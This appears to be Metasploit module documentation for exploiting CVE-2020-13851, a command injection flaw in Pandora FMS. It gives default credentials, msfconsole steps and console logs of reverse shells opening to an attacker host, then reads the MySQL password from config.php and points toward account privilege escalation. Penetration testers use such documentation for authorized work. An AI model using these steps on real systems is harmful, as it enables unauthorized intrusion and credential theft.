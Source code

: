 ## Vulnerable Application
This module exploits a vulnerability (CVE-2020-13851) in Pandora FMS versions 7.0 NG 742, 7.0 NG 743, and 7.0 NG 744
(and perhaps older versions) in order to execute arbitrary commands.

The module first connects to the target's `index.php` page in order to verify the version number, which should be displayed here.
If the version indicates the target is likely vulnerable, the module will try to authenticate using the credentials provided by the user.
If no custom credentials are provided, the module will use the default Pandora FMS credentials, which are `admin:pandora`.

After authenticating, the module attempts to exploit CVE-2020-13851, which is a command injection vulnerability
in the `Events` feature of Pandora FMS. Specifically, this flaw allows users to execute arbitrary commands via
the `target` parameter in HTTP POST requests to the `Events` function.
In order to obtain remote code execution, the module will attempt to issue a malicious HTTP POST request to the `Events` function,
with the `target` parameter set to contain the payload.

If a shell is obtained, the module will try to obtain the local MySQL database password via a simple `grep` command on the plaintext
`/var/www/html/pandora_console/include/config.php` file.
The default MySQL administrative user is `root` and the default password for the official CentOS virtual appliance ISO is `pandora`.
For the official Docker container, the default MySQL password is `avwwoyqk`. This password can subsequently be used
in order to query the database and to escalate the privilege of any Pandora FMS account to an administrator.

Valid credentials for a Pandora FMS account are required for the module to work. The account does not need to have admin privileges.
This module has been successfully tested on Pandora 7.0 NG 744 running on CentOS 7 (the official virtual appliance ISO for this version).

## Verification Steps
1. Install the module as usual
2. Start msfconsole
3. Do: `use exploit/linux/http/pandora_fms_events_exec`
4. Do: `set RHOSTS [IP]`
5. Do: `set USERNAME [username for the Pandora FMS account]`
6. Do: `set PASSWORD [password for the Pandora FMS account]`
7. Do: `set LHOST [IP]`
8. Do: `exploit`

## Options
### PASSWORD
The password for the Pandora FMS account to authenticate with. This option is required. The default value is `pandora`.

### TARGETURI
The base path to Pandora FMS. The default value is `/pandora_console/`.

### USERNAME
The username for the Pandora FMS account to authenticate with. This option is required. The default value is `admin`.

## Scenarios
### Pandora FMS 7.0 NG 744 running on CentOS 7 (the official virtual appliance ISO for this version). Target: Linux (x64)
```
msf5 exploit(linux/http/pandora_fms_events_exec) > show options

Module options (exploit/linux/http/pandora_fms_events_exec):

   Name       Current Setting    Required  Description
   ----       ---------------    --------  -----------
   PASSWORD   pandora            yes       Password to authenticate with
   Proxies                       no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.1.13       yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80                 yes       The target port (TCP)
   SRVHOST    0.0.0.0            yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080               yes       The local port to listen on.
   SSL        false              no        Negotiate SSL/TLS for outgoing connections
   SSLCert                       no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /pandora_console/  yes       Base path to Pandora FMS
   URIPATH                       no        The URI to use for this exploit (default is random)
   USERNAME   admin              yes       Username to authenticate with
   VHOST                         no        HTTP server virtual host


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.12     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux (x64)


msf5 exploit(linux/http/pandora_fms_events_exec) > exploit

[*] Started reverse TCP handler on 192.168.1.12:4444 
[+] Authenticated as user admin.
[*] Executing payload...
[*] Sending stage (3012516 bytes) to 192.168.1.13
[*] Command Stager progress - 100.00% done (833/833 bytes)
[*] Meterpreter session 18 opened (192.168.1.12:4444 -> 192.168.1.13:39208) at 2020-07-01 10:14:44 -0400

meterpreter > 
[*] Tip: You can try to obtain the MySQL DB password via the shell command `grep dbpass include/config.php`. The default privileged user is `root`.
getuid
Server username: no-user @ localhost.localdomain (uid=48, gid=48, euid=48, egid=48)
meterpreter >
```
### Pandora FMS 7.0 NG 744 running on CentOS 7 (the official virtual appliance ISO for this version). Target: Linux (cmd)
```
msf5 exploit(linux/http/pandora_fms_events_exec) > exploit

[*] Started reverse TCP handler on 192.168.1.12:4444 
[+] Authenticated as user admin.
[*] Executing payload...
[*] Command shell session 1 opened (192.168.1.12:4444 -> 192.168.1.13:38776) at 2020-06-16 13:01:52 -0400
[*] Trying to read the MySQL DB password via `cat include/config.php | grep dbpass`. The default privileged user is `root`.

$config["dbpass"]="pandora";
id
uid=48(apache) gid=48(apache) groups=48(apache)
```
